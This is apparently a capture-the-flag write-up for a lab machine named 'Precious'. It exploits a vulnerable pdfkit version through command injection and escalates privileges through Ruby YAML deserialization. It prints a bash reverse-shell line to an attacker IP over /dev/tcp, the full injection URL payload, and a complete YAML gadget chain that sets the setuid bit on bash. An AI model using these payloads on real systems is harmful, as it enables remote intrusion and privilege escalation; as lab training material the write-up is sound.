 # Precious
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, scan all open ports and it's services from the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276690-4fe354b9-3638-442c-9480-5805e5c76317.png)


2. Notice the machines seems running a web application, let's open the host on the web browser.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276928-1b29c212-2439-47e0-bb58-720df75f81ff.png)


3. Let's enter `http://google.com`.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/211277475-e4846599-d902-479b-b914-f14759cebfd4.png)


4. Already tried to enter my own ip but didn't get any pdf.
5. Let's serve http on port 8000 first.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278408-539b23c8-4444-4b66-b25c-523dbc65ae6c.png)


![image](https://user-images.githubusercontent.com/70703371/211278442-8bd11666-3bf6-4d31-9e18-6631343ef3ca.png)


6. Great! We got it.
7. Check the meta data, to see if we can grab any clue.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278752-fed9eaf3-6a3e-4eba-9701-42d0d4a7db02.png)


8. Notice the version of pdfkit is outdated and it's vulnerable.

> WRITTEN IN CVE MITRE

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25765
```

9. Hence i did a small outsource about the approach they used for this vuln, found this link.

```
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
```

![image](https://user-images.githubusercontent.com/70703371/211280009-f3ea6bd2-9dcb-4218-9a6c-21564f5b39a0.png)


10. Let's use this payload.

![image](https://user-images.githubusercontent.com/70703371/211281122-658a8d9e-aeef-4b09-9790-90346f7bc779.png)


![image](https://user-images.githubusercontent.com/70703371/211281160-fc388b59-a2b1-4090-ae7c-4f14b5cbe665.png)



11. But change the "sleep" to this:

> REVERSE SHELL FOR BASH

```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'
```

> FULL PAYLOAD

```
http://10.10.14.12:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'`'}
```

12. Set a listener using pwncat for port 443 because we use it on the payload, then submit the payload.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211281893-6d255475-b83c-4d5a-a4b4-95e1dca8bb68.png)


13. Nice, got the shell!

![image](https://user-images.githubusercontent.com/70703371/211282031-5b3733aa-a97b-43d1-ba4f-bdd2c5a8d20a.png)


14. Since we're not root, let's find the **user** flag.
15. Actually it took a while for me, i didn't find the user flag, but when i found a cred.

> CRED

![image](https://user-images.githubusercontent.com/70703371/211282795-4ac4805d-0d06-479e-a546-b724ade8623b.png)


![image](https://user-images.githubusercontent.com/70703371/211282841-1ab9201b-0882-42dc-b3db-a58d6251d0bb.png)


![image](https://user-images.githubusercontent.com/70703371/211282892-0983fd9a-a908-4ded-81a6-fd7d9c1e4aed.png)


16. Let's try login to henry with ssh.

> LOGGED IN

![image](https://user-images.githubusercontent.com/70703371/211283134-5b91c51d-bac1-4347-b43c-a4b5accd3f04.png)


![image](https://user-images.githubusercontent.com/70703371/211283181-d5f3768e-9de6-4663-8da5-1e92a3a7d620.png)


![image](https://user-images.githubusercontent.com/70703371/211283211-6ab3fdc2-86c6-4b6d-8e9f-0fe35035fc81.png)


17. Got the user flag.

## FLAG

```
3e73f31984a909e91e2952956243e048
```

18. Now for the root flag, we need to do privilege escalation.

![image](https://user-images.githubusercontent.com/70703371/211283528-aa43f568-2da8-4446-8dd2-9f03df4ef2f8.png)


![image](https://user-images.githubusercontent.com/70703371/211283681-9058d08a-0cb8-476d-85b1-a0ed887b1b1f.png)


![image](https://user-images.githubusercontent.com/70703371/211283919-d9f6f185-50df-428a-93cd-c0ea01e8b8e3.png)


19. Got a clue here:

![image](https://user-images.githubusercontent.com/70703371/211284959-72f6a994-de97-43dc-bdb6-7ddde19ab333.png)


20. Maybe we can do RCE through YAML upload file.
21. I did a small outsource about this yaml exploit. Turns out find [this](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) website and there's a ruby script to do RCE.

> THE SCRIPT

```rb
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

22. Change the git_set value to `chmod u+s bin/bash`.

```rb
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s bin/bash
         method_id: :resolve
```

23. Now make a new file named `dependencies.yml` then paste the script inside it. 
24. Next, to run the script, remember what we got from `sudo -l`.

> sudo -l

![image](https://user-images.githubusercontent.com/70703371/211287339-32dbd1cf-041f-4d4e-8e60-2d8629d355a8.png)


25. Hence, the command is -> `sudo /usr/bin/ruby /opt/update_dependencies.rb`

> RESULT



![image](https://user-images.githubusercontent.com/70703371/211289639-890b827a-2837-4666-a99c-587d385b5f19.png)


